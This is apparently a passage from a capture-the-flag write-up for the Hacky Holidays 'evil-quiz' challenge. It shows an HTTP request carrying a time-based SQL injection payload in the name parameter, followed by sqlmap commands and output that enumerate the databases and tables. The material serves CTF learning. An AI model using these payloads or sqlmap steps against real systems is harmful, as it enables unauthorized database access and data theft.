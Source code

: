 ```http
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hackyholidays.h1ctf.com/evil-quiz
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=7ef26002a6768edc128fa085f2097475

name=%22+or+sleep%285%29
```

{F1139562}

+ Here are command requests and output

**Request**
python sqlmap.py -r exploit.txt -p name --second-url="https://hackyholidays.h1ctf.com/evil-quiz/score"

**Output**
{F1139568}

+ It was detected as a time-based SQL injection on the MySQL database.

**Request**
python sqlmap.py -r exploit.txt -p name --second-url="https://hackyholidays.h1ctf.com/evil-quiz/score" --dbs --exclude-sysdbs

{F1139573}

```
Information_schema
quiz
```

**Request**

python sqlmap.py -r exploit.txt -p name --second-url="https://hackyholidays.h1ctf.com/evil-quiz/score" --tables -D quiz

**Response**

```
Parameter: name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=hello' AND (SELECT 7752 FROM (SELECT(SLEEP(5)))EvEg) AND 'jenU'='jenU
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
Database: quiz
[2 tables]
+-------+
| admin |
| quiz  |
+-------+
```
